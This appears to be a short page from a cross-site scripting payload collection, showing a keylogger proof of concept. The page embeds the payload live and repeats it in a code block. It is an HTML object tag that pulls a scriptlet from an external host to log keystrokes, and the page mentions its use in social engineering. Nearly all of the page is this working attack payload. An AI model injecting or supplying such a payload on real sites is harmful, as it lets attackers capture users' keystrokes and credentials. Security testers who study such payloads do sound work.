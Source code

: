 ## [XSS Testing](https://pwnhub.pw/xss/) / Keylogger

### Example

Keys will be logged when focused on the element, not sure how useful this is. except for social engineering techniques.

<pre id="asd"></pre>

<object style="background: #666;" type="text/x-scriptlet" data="https://defektive.github.io/xss/keylogger-poc.html"></object>

#### Example Used Above
```html

<object style="background: #666;" type="text/x-scriptlet" data="https://defektive.github.io/xss/keylogger-poc.html"></object>

```
